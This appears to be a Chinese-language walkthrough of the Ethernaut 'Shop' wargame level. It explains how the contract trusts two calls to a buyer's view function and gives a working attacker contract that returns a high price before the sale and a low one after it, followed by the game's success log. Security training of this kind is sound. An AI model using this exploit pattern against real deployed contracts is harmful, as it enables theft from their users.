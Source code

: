 # 22 Shop

## 思路

目标: 以低于目标价格成功购买

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

题目中的逻辑很简单, shop的`buy`函数会先检查购买者的出价, 如果大于目标价格(100)并且没有被售出, 则进行售出, 并将价格更新为购买这的出价.

思路:

问题出在Shop调用了2次_buyer.price(), 并假设 _buyer.price()始终返回相同的值

```solidity
//检查出价
_buyer.price()
//实际出价
price = _buyer.price();
```

只要能在 `_buyer.price()`第一次被调用时返回一个大于或等于100的值, 而在第二次调用时返回一个很低的价格, 就能完成题目

```solidity
if (is_the_first_call)
	return 100;
else
	return 1;
```

只可惜的是 buyer的`buy`函数被声明成了view (只读的) `function price() external view returns (uint);`

所以这个方法是**行不通的**: 在Buyer合约中声明类似`is_the_first_call`之类的变量并在调用`price()`是更新该变量, 第二次调用时检查该变量

那么只能在Buyer合约外找一个变化的标记物, 对, 就是 shop的`isSold`, 在第一次调用和第二次调用之间, 这个状态变量变化了.所以

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Shop {
    function buy(  ) external   ;
    function isSold(  ) external view returns (bool ) ;
    function price(  ) external view returns (uint256 ) ;
}

contract Buyer {

    Shop shop;

    constructor(address _target){
        shop = Shop(_target);
    }
    
    function price() public  view returns (uint)
    {
        if (!shop.isSold()){
            return 100;
        }else
        {
            return 1;
        }
    }

    function attack() public {
        shop.buy();
    }
}
```





## 参考答案

![image](https://github.com/yinhui1984/imagehosting/blob/main/images/1676355367975551000.png?raw=true)



```
^^.js:45 ᕦ(ò_óˇ)ᕤ 正在从关卡获得新的实例... <  < <<请稍等>> >  >
redux-logger.js:1  action LOAD_LEVEL_INSTANCE @ 14:08:38.911
^^.js:140 ⛏️ Sent transaction ⛏ undefined/tx/0xd3261a5c4804a1b0cd33f195c51f8f2ad9c8b4cab984fe26a470f703bd217e4b
^^.js:35 => 实例地址0xB72aAB48b9B89FDa2C1CD7538E073eD56048fAA9
redux-logger.js:1  action LOAD_LEVEL_INSTANCE @ 14:08:44.672
^^.js:140 ⛏️ Mined transaction ⛏ undefined/tx/0xd3261a5c4804a1b0cd33f195c51f8f2ad9c8b4cab984fe26a470f703bd217e4b
redux-logger.js:1  action SET_BLOCK_NUM @ 14:08:50.385
redux-logger.js:1  action SET_BLOCK_NUM @ 14:11:30.473
await contract.isSold()
true
(await contract.price()).toString()
"1"
^^.js:45 | – _ – | 正在提交关卡实例... <  < <<请稍等>> >  >
redux-logger.js:1  action SUBMIT_LEVEL_INSTANCE @ 14:12:52.727
^^.js:140 ⛏️ Sent transaction ⛏ undefined/tx/0xf71738bd2a04b7c4eed5c0a6ec982e243469363b87be8a24dcd60c779a787f60
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
redux-logger.js:1  action SUBMIT_LEVEL_INSTANCE @ 14:12:59.744
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:140 ⛏️ Mined transaction ⛏ undefined/tx/0xf71738bd2a04b7c4eed5c0a6ec982e243469363b87be8a24dcd60c779a787f60
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:73 ☚ (<‿<)☚ 牛逼！, 你通过了这关!!!
^^.js:56 
redux-logger.js:1  action SET_BLOCK_NUM @ 14:13:00.391

```







